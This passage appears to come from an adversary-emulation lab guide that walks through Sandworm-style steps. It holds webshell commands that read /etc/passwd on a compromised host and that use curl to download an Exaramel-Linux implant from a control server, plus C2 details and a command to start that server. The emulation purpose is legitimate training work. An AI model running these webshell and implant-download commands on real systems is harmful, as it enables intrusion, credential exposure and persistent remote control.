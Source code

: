 Execute `cat /etc/passwd` from P.A.S. webshell.

```bash
# P.A.S. Webshell can display the /etc/passwd file on a compromised host.

curl --insecure "https://10.0.1.5/search.php?cmd=cat+/etc/passwd"
```

[Source Code](/Resources/phpWebShell/webShell.php#L35)

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

### Step 13 - Upload and Execute Exaramel (Linux Variant)

:microphone: `voice track`

Sandworm downloads an ELF executable from the control server using curl.

The ELF executable is an implant based on Exaramel-Linux.

Once downloaded to disk, Sandworm sets Exaramel-Linux's file permissions to read-write-execute.

Finally, Sandworm executes Exaramel-Linux.

Exaramel-Linux establishes HTTPS C2 with the control server.

```
C2 Info

Connects to: 192.168.0.4:443

Protocol: HTTPS

File write: /var/www/html/centreon_module_linux_app64
```

### :biohazard: Procedures

:warning: Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your P.A.S. webshell terminal.

Execute `curl` to download Exaramel-Linux to `/var/www/html/centreon_module_linux_app64`:

```bash
# P.A.S. Webshell can upload and download files to and from compromised hosts.

curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+https://192.168.0.4/getFile/Exaramel-Linux+-o+centreon_module_linux_app64"
```
